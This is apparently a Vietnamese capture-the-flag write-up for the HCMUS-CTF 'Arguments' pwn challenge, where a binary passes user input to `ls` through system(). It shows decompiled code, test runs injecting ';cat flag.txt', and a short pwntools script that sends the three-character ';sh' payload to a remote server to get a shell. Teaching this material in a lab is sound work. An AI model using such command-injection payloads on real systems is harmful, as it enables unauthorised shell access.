 ## ⚡ [Arguments](https://ctf.hcmus.edu.vn/challenges#Arguments)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/128-pts-brightgreen.svg)](https://img.shields.io/badge/128-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `shell`


### Challenge Description

Give us your arguments, we'll give you the result!

### Summary

Challenge này yêu cầu ta lấy được môi trường thực thi trên server.  
Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec arguments
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Chương trình này chạy trên nhân x64, đã bật toàn bộ các bảo vệ.

Chạy thử chương trình:

```bash
$ ./arguments
We will execute `ls` command, please give us your arguments!
-l
Your output of the command `ls -l`:
total 12
-rwxrwxrwx 1 viplazylmht viplazylmht 3432 Sep 29 09:26 README.md
-rwxrwxrwx 1 viplazylmht viplazylmht  198 Sep 29 09:15 arg.py
-rwxrwxrwx 1 viplazylmht viplazylmht 8792 Sep 26 11:08 arguments
-rwxrwxrwx 1 viplazylmht viplazylmht   28 Sep 29 09:20 flag.txt
Goodbye!
```
Chương trình yêu cầu ta nhập tham số cho câu lệnh `ls`, dùng để liệt kê các tập tin trong thư mục hiện hành.
Tuy nhiên, thứ ta cần là nội dung trong file `flag.txt`, vì vậy thử dùng trick để chạy 2 lệnh shell trên cùng 1 dòng:

```bash
$ echo ";cat flag.txt" | ./arguments
We will execute `ls` command, please give us your arguments!
Your output of the command `ls ;ca`:
README.md  arg.py  arguments  flag.txt
sh: 1: ca: not found
Goodbye!
```

Dễ thấy, challenge này đã có filter riêng để lọc input, cụ thể là chỉ lấy 3 kí tự đầu tiên được xây dựng trong hàm show_me.

```cpp 
__int64 show_me()
{
  ...
  puts("We'will execute `ls` command, please give us your arguments!");
  gets(&s);
  if ( strchr(&s, 47) ) v2 = puts("Slashes denied!!");
  else
  {
    snprintf(&command, 7uLL, "ls %s", &s);
    printf("Your output of the command `%s`: \n", &command);
    v2 = system(&command);
  }
  puts("Goodbye!");
  ...
}
```
Vậy cần 1 `payload` có độ dài 3 kí tự, trong đó kí tự đầu tiên là `;` để ngắt lệnh đầu tiên. 

### Exploit

Có nhiều lệnh có độ dài 2 kí tự ví dụ như `vi` hay `sh`, nhưng vì server đã được chạy trên một `virtualenv` riêng, nên ta sẽ chọn một lệnh được cung cấp sẵn trên server:

```bash
$ echo "bin" | ./arguments
We will execute `ls` command, please give us your arguments!
Your output of the command `ls bin`:
sh cat
Goodbye!
```

Xây dựng payload:

```python
payload = ";" + "sh"
```

Với lệnh `sh`, ta sẽ lấy được quyền thực thi shell trên môi trường máy chủ, từ đó đọc được nội dung flag.

## Code

```python
#!/usr/bin/env python3
from pwn import *

p = remote("159.65.13.76", 62112)
#p = process("./arguments")

p.recvuntil("ts!")
payload = ";sh"

p.sendline(payload)

p.sendline("cat flag.txt;exit")
p.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
